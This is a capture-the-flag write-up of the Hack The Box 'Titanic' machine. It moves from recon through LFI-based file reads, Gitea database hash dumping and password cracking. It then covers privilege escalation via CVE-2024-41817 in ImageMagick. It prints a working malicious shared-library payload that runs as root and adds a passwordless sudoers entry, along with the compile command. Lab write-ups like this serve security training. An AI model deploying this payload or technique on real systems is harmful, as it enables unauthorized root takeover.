

**Start 08:51 21-04-2025**

---
```
Scope:
10.10.11.55
```
## Recon

### Nmap

```bash
sudo nmap -sC -sV titanic -sT -T5 --min-rate=5000 -Pn -vvvv

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://titanic.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We only have 2 ports, let's check out port `80` first.


### 80/TCP - HTTP


Let's check out what happens underneath with `burp`


### Burpsuite


Accordingly it then gives us a GET request:


Since there's nothing else here this points to a HIGHLY LIKELY **LFI/RFI**.


### LFI

We test it using the standard `/etc/passwd` file:


It seems to work! We found a user *developer* in here.

:::success
For CTF purposes I then got the `user.txt` flag, but best case I would first need to get RCE:

:::

From here I could go ahead and try to get RCE.

I had hoped that there would be an `id_rsa` file inside the `.ssh` directory of *developer* but alas:


:::note
As always I'd have to think outside the box here, I tried to look up **LFI werkzeug** on Google however whatever I tried it didn't work. 
:::

Eventually I tried the following:


By checking out the target's `/etc/hosts` file we found the `dev` subdomain! Let's add it and check it out.


It's running 2 `GitHub` repo's.


The `docker-config` repo seems interesting:


We find a `MYSQL_ROOT_PASSWORD`:

```
MySQLP@$$w0rd!
```

Furthermore we also find a path:


As per the [official GitHub repo]() we should be able to check out the `/gitea/<CUSTOM>/conf/app.ini` page:


After some wrestling around, this turned out to be the correct one:


## SQLite3

The `[database]` part seems interesting, let's try to fetch the `gitea.db` file.

:::success
This worked and returned a shitload of SQL code.
:::


This seems to return some hashes, let's try to decrypt this shit.

First we will save this file in order to query it using SQLite3.


We will then delete the header in order to be able to query the db:


:::fail
This did NOT work and it wouldn't recognize the fail as a `.db` file, instead I opted for `curl` to save the file with full integrity.
:::


Right, let's query the DB now.

```sql
sqlite> SELECT * FROM user;
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0

2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0
```

From the `.schema user` query I notice that the 8th and 9th column are the `passwd` and `passwd_hash_algo`.

## Hashcat

In order to crack this hash I looked up some tools to simplify the process, since `hashcat` doesn't support `pbkdf2` hashes:


Let's make a new query that grabs all relevant parts:




:::fail
Unfortunately the root hash wouldn't crack.
:::

However the *developer* hash cracked right away:


```
developer
25282528
```

## Foothold


I was now in, awesome!


### user.txt

For logging purposes:


## Enum


Unfortunate.

I transferred over `linpeas.sh` and started doing enumeration.


Interesting, perhaps the `identify_images.sh` will be a quick win.


Let's check out what this script is doing


## Privilege Escalation

Apparently it's using software called `ImageMagick` to identify images and then push them into the `metadata.log` file:


### CVE-2024-41817

There's an existing [CVE for this software](https://mindpatch.medium.com/cve-2024-41817-how-env-var-triggers-rce-in-imagemagicks-appimage-14d54aba5613):


```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("echo 'developer ALL=(ALL) NOPASSWD:ALL' | sudo tee -a /etc/sudoers");
}
```

Above command makes developer user able to use sudo without using password.

```bash
gcc -fPIC -shared -o ./libxcb.so.1 a.c -nostartfiles
```


### root.txt


:::summary
As ChatGPT summarizes the privesc technique:


Overall *MEDIUM* difficulty for me at this stage, definitely needed some help with the priv esc simply because I did not fully understand it yet.
:::

---

**Finished 11:21 21-04-2025**

[^Links]: [[Hack The Box]] [[OSCP Prep]]